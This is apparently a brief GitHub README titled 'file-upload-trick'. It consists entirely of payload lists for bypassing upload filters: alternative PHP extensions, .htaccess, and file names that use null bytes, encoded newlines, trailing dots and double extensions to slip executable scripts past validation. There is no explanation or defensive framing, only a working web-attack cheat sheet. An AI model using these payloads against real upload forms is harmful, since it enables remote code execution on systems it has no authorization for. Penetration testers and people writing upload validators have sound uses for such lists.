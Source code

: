 # file-upload-trick
Common Extension File Upload Bypass

```
.php
.PhTmL
.php2
.php3
.php4
.php5
.php6
.php7
.phps
.pht
.phtm
.phtml
.pgif
.shtml
.htaccess
.phar
.inc
.hphp
.ctp
.module
```


unrestricted file upload trick
```
file.php%20
file.php%0a
file.php%00
file.php%0d%0a
file.php/
file.php.\
file.php....
file.pHp5....
```

```
file.png.php
file.png.pHp5
file.php#.png
file.php%00.png
file.php\x00.png
file.php%0a.png
file.php%0d%0a.png
file.phpJunk123png
```

```
file.png.jpg.php
file.php%00.png%00.jpg
```
